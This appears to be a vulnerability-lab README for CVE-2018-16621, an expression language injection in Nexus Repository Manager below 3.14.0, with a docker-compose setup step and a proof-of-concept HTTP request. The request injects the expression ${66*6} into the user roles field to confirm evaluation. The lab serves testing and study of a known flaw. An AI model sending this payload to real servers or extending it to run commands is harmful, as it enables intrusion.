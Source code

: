 # Nexus Repository Manager Expression Language Injection Vulnerability (CVE-2018-16621)

## Affected Version

- Nexus Repository Manager < 3.14.0

## Setup

Run

```bash
docker-compose up
```

## Poc

Send this request and you will found the `396` was in response.

```http
POST /service/extdirect HTTP/1.1
Host: localhost:8081
Content-Length: 217
Content-Type: application/json
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: NXSESSIONID=80798e99-c82d-496a-94c8-d17510668726
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["exp|${66*6}|"]}],"type":"rpc","tid":11}
```